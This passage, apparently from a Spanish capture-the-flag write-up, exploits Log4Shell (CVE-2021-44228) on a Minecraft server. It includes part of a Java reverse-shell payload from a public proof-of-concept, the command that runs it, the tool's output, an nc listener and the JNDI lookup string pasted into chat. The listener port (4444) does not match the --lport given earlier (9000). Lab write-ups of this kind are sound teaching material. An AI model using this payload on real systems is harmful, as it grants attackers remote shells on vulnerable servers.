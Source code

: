 ```python
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file
```
{: file="poc.py"}


Después de esto, solo hace falta ejecutar el **script** indicando el **puerto** que quiero usar para el servidor web para exponer la **shell reversa** y el **puerto** al que quiero que me llegue la conexión.

```bash
python3 poc.py --userip 10.10.14.5 --webport 8000 --lport 9000

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.5:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

Luego, hay que ponerse a la escucha con `nc` en el **puerto** indicado.

```bash
nc -lvp 4444
```
{: .nolineno}

Con todo preparado, solo hace falta copiar y pegar el **payload** generado por el **exploit** dentro del chat de **Minecraft** y esperar que llegue la **shell reversa**.

```bash
${jndi:ldap://10.10.14.5:1389/a}
```
{: .nolineno}
